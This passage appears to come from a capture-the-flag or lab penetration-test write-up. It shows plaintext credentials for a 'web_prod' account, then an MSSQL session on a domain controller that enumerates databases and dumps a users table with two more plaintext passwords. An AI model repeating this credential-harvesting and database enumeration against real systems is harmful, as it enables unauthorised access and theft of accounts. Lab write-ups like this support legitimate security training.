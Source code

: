 <img src="attachments/5333436f99957fcfb00b191aee9d05aa.png" />

We found new credentials for a user, `web_prod`. :

<img src="attachments/8ea9b75b23b4600bfe9348e9fe06bfeb.png" />

```
web_prod:Tribesman201 \ prod
```

---

##### Enumerating MSSQL Service

We logged into the MSSQL service of DC using the credentials of `web_prod`, and after enumerating the databases and tables, we were able to find two credential pairs.

```
SQL (web_prod  guest@master)> SELECT name FROM sys.databases;
name     
------   
master   
tempdb   
model    
msdb     
prod     

SQL (web_prod  guest@master)> USE prod;
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: prod
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'prod'.
SQL (web_prod  dbo@prod)> SELECT * FROM information_schema.tables;
TABLE_CATALOG   TABLE_SCHEMA   TABLE_NAME   TABLE_TYPE   
-------------   ------------   ----------   ----------   
prod            dbo            users        b'BASE TABLE'   

SQL (web_prod  dbo@prod)> SELECT * FROM users;
id   name              password            
--   ---------------   -----------------   
 1   b'abbie.smith'    b'CMe1x+nlRaaWEw'   
 2   b'dorothy.rose'   b'hC_fny3OK9glSJ'
```
